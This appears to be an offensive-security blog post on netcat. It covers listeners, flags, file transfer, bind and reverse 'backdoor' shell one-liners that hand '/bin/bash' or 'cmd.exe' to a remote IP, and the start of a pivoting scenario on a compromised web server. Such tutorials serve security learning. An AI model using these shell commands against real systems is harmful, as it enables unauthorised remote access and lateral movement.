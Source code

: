 ```yaml
---
layout: post
title:  "Netcat"
categories: Netcat
tags:  nc netcat shell backdoor
author: Trelis
---
```


* content
{:toc}

# Description
This simple utility reads and writes data across TCP or UDP network connections. It is designed to be a reliable back-end tool to use directly or easily drive by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need, including port binding to accept incoming connections. 




# Fundamentals
In order to establish a connection, a client and a listener are needed. First of all, there must be a netcat listening at some port in the target machine:
```
nc -l -p LocalPort
``` 
With the following the attacker machine is able to establish the connection:
```
nc IP Port
```
Both the client and listener take input from STDIN 
and send data received from the network to STDOUT

# Flags
-l: Listen mode (default is client mode)
-L: Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects
-u: UDP mode (default is TCP)
-p: Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent)
-e: Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero
-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running.
-v: Be verbose, printing out messages on Standard Error, such as when a connection occurs
-vv: Be very verbose, printing even more details on Standard Error

# File Transfer
## File from client to target
Listening
```
nc -l -p LocalPort > outfile
```
Connect
```
nc -w3 IP Port < infile
```

## File from target to client
Listening
```
nc -l -p LocalPort < inflie
```
Connect
```
nc -w3 IP Port > outfile
```

# Backdoor Shells
## Linux
Listening
```
nc -l -p LocalPort -e /bin/bash
```
Connect
```
nc IP Port -e /bin/bash
```

## Windows
Listening
```
C:\ nc -l -p Port -e cmd.exe
```
Connect
```
nc IP Port -e cmd.exe
```


# Relays
There are two networks. Our attacking machine and a web server that has access to the other network which has a Windows and Linux machine. Our attacking machine does not have direct access to it, but the web server does.

[IMG relay]

We’ve already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows and Linux machine.


## Linux
https://blog.techorganic.com/2012/10/16/introduction-to-pivoting-part-3-ncat/

## Windows